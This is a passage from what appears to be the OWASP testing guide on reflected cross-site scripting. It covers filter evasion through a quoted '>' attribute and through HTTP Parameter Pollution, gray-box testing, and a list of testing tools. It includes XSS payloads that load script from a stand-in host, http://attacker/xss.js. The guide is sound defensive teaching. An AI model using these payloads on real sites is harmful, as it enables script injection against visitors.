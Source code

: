 In this scenario there is a regular expression checking if `<script [anything but the character: '>'] src` is inserted. This is useful for filtering expressions like

`<script src="http://attacker/xss.js"></script>`

which is a common attack. But, in this case, it is possible to bypass the sanitization by using the “&gt;” character in an attribute between script and src, like this:

`http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>`

This will exploit the reflected cross site scripting vulnerability shown before, executing the javascript code stored on the attacker's web server as if it was originating from the victim web site, `http://example/`.

#### Example 7: HTTP Parameter Pollution (HPP)

Another method to bypass filters is the HTTP Parameter Pollution, this technique was first presented by Stefano di Paola and Luca Carettoni in 2009 at the OWASP Poland conference. See the [Testing for HTTP Parameter pollution](04-Testing_for_HTTP_Parameter_Pollution.md) for more information. This evasion technique consists of splitting an attack vector between multiple parameters that have the same name. The manipulation of the value of each parameter depends on how each web technology is parsing these parameters, so this type of evasion is not always possible. If the tested environment concatenates the values of all parameters with the same name, then an attacker could use this technique in order to bypass pattern- based security mechanisms.
Regular attack:

`http://example/page.php?param=<script>[...]</script>`

Attack using HPP:

`http://example/page.php?param=<script&param=>[...]</&param=script>`

See the [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) for a more detailed list of filter evasion techniques. Finally, analyzing answers can get complex. A simple way to do this is to use code that pops up a dialog, as in our example. This typically indicates that an attacker could execute arbitrary JavaScript of his choice in the visitors' browsers.

### Gray-Box Testing

Gray-box testing is similar to black-box testing. In gray-box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and how the user input is rendered back to the user might be known by the pen-tester.

If source code is available (white-box testing), all variables received from users should be analyzed. Moreover the tester should analyze any sanitization procedures implemented to decide if these can be circumvented.

## Tools

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/)
    This tool helps you encode arbitrary texts to and from 65 kinds of charsets. Also some encoding functions featured by JavaScript are provided.
- [HackVertor](https://hackvertor.co.uk/public)
    It provides multiple dozens of flexible encoding for advanced string manipulation attacks.
- [XSS-Proxy](http://xss-proxy.sourceforge.net)
    XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
- [ratproxy](https://code.google.com/archive/p/ratproxy/)
    A semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- [Burp Proxy](https://portswigger.net/burp)
    Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org)